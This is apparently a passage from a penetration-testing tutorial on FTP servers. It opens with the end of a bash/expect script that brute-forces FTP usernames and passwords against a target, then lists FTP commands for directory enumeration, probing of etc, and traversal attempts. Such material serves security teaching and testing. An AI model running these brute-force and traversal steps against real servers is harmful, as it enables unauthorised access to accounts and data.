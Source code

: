```bash
        echo "Trying $user:$pass"
        timeout 10 expect << EOF
        spawn ftp $TARGET
        expect "Name"
        send "$user\r"
        expect "Password:"
        send "$pass\r"
        expect {
            "230" { 
                puts "SUCCESS: $user:$pass"
                send "quit\r"
                exit 0
            }
            "530" { 
                puts "FAILED: $user:$pass"
                send "quit\r"
            }
        }
EOF
    done
done
```

### Phase 2: Directory Structure Enumeration

#### Basic Directory Listing
```bash
# After successful FTP login
ftp> pwd
# Output: 257 "/" is the current directory

# Detailed directory listing
ftp> ls -la
ftp> dir -la

# Expected output format:
# drwxr-xr-x   2 owner    group        4096 Nov 26 07:30 directory_name
# -rw-r--r--   1 owner    group         234 Nov 26 07:25 file_name.txt
#
# Permission bits explanation:
# d = directory, - = file
# rwx = read/write/execute permissions (owner/group/others)
```

#### Comprehensive Directory Mapping
```bash
# Navigation and enumeration
ftp> pwd                    # Current directory
ftp> ls -la                 # Detailed listing
ftp> ls -R                  # Recursive listing (if allowed)

# Common directories to check
ftp> cd pub                 # Public directory
ftp> cd home                # User home directories
ftp> cd var                 # Variable data directory
ftp> cd etc                 # Configuration directory
ftp> cd tmp                 # Temporary directory
ftp> cd upload              # Upload directory
ftp> cd download            # Download directory

# Directory traversal attempts
ftp> cd ..                  # Parent directory
ftp> cd ../../../           # Multiple level traversal
```